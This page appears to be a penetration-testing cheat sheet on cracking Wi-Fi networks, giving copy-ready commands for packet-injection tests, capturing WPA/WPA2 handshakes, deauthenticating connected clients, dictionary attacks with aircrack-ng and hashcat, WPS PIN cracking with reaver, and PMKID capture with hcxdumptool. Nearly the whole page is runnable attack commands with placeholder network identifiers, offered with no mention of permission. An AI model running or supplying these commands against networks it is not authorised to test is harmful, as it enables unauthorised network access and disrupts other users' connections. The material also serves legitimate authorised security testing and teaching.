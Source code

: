 # Wireless Cracking

Wireless cracking is a critical aspect of cybersecurity, focusing on the identification and exploitation of vulnerabilities within wireless networks. Below, we present an extensive guide on various wireless cracking techniques, including WPA/WPA2 handshake cracking, WPS PIN cracking, PMKID attack, and essential wordlists for dictionary attacks.

### Checking Packet Injection Support

***

Before diving into wireless cracking, ensure your wireless interface supports packet injection using the following command.

```bash
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### WPA/WPA2 Handshake Cracking

***

C**apture a WPA/WPA2 4-way Handshake.** Begin by monitoring a target WiFi network to capture the WPA/WPA2 4-way handshake.

```bash
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

**Deauthenticate Clients.** Optionally, you can deauthenticate clients from the WiFi network to disrupt their connections.

```bash
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

**Dictionary Attack against WPA/WPA2 Handshake**

Initiate a dictionary attack against the captured WPA/WPA2 handshake using 'aircrack-ng'

```bash
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### WPS PIN Cracking

***

**Crack a WPS PIN.** Use 'reaver' to crack a WPS PIN:

```bash
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

**Crack a WPS PIN with Delay Between Attempts.** Alternatively, crack a WPS PIN with specified delays between attempts.

```bash
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

### PMKID Attack

***

The PMKID attack allows you to crack WPA/WPA2 authentication without deauthenticating clients.

**1Install Required Tools on Kali Linux:**

```bash
apt-get update && apt-get -y install hcxtools
```

**Install Required Tool on WiFi Pineapple Mark VII.** If using a WiFi Pineapple Mark VII, install the tool:

```bash
opkg update && opkg install hcxdumptool
```

**Install Required Tool on WiFi Pineapple Nano.** On a WiFi Pineapple Nano, use.

```bash
opkg update && opkg -d sd install hcxdumptool
```

**Capture PMKID Hashes for Nearby Networks.** Start capturing PMKID hashes for all nearby networks

```bash
hcxdumptool --enable_status=1 -o
hcxdumptool_results.cap -i wlan0mon
```

Capture PMKID Hashes for Specific Networks. To capture PMKID hashes for specified WiFi networks, create a filter list and use

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\\\\://g' >> filter.txt 
hcxdumptool --enable_status=1 -o 
hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

**Extract PMKID Hashes from PCAP File.** Extract PMKID hashes from the captured PCAP file

```bash
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

**Dictionary Attack against PMKID Hashes.** Finally, launch a dictionary attack against the PMKID hashes using 'hashcat':

```bash
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

### Useful Wordlists

***

Here are some valuable wordlists you can use during wireless cracking:

**Rockyou**

* The 'rockyou.txt' wordlist is commonly used and can be found at: `/usr/share/wordlists/`

**Seclists:**

* Download the 'seclists' collection, which contains various lists for security assessments, or manually retrieve it from GitHub

```bash
apt-get update && apt-get install seclists
ls -l /usr/share/seclists/
```
